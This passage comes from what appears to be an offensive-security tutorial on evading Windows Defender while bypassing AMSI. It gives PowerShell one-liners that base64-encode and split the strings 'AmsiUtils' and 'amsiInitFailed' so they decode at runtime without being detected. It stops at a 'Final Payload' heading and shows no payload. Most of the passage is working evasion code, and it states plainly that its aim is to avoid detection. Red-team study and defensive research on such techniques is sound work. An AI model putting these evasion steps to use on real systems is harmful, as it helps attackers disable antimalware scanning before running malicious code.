 
![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/ebc13c07-c4b0-4558-b66f-22276b30eeba)

+ Now we can do the same for *AmsiUtils* and *amsiInitFailed*
```powershell
PS:\> $Text = 'AmsiUtils';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/ac648e82-2d56-405f-ab8a-31e5d92a0485)

+ Windows Defender could still detect *AmsiUtils* encoded in base64. We can divide this into two pieces and concat them together to avoid getting detected.
```powershell
# Encoding Payload
PS:\> $Text = 'Amsi';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
PS:\> $Text = 'Utils';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText

# Decoding Paylaod
PS:\> $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('QQBtAHMAaQA=')))+$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('VQB0AGkAbABzAA==')))
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/d940fc02-53cf-4f34-b269-108d0c136a14)

+ We can see this way we have encoded *AmsiUtils* without triggering Defender
+ Lets try the same for *amsiInitFailed* by splitting it into 3 parts
  1. *amsi*
  2. *Init*
  3. *Failed*
```powershell
# Encoding Payload
PS:\> $Text = 'amsi';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
PS:\> $Text = 'Init';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText
PS:\> $Text = 'Failed';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText=[Convert]::ToBase64String($Bytes);$EncodedText

# Decoding Paylaod
PS:\> $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('YQBtAHMAaQA=')) + $([System.Text.Encoding]::Unicode.GetString($([System.Convert]::FromBase64String('SQBuAGkAdAA=')))) + $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RgBhAGkAbABlAGQA'))))
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/e4712ca9-4343-4e28-9d25-ef8eff1c64d2)

+ As we can see, we have encoded *amsiInitFailed* also without triggering Defender.

## <span style="color:lightgreen">Final Payload</span>
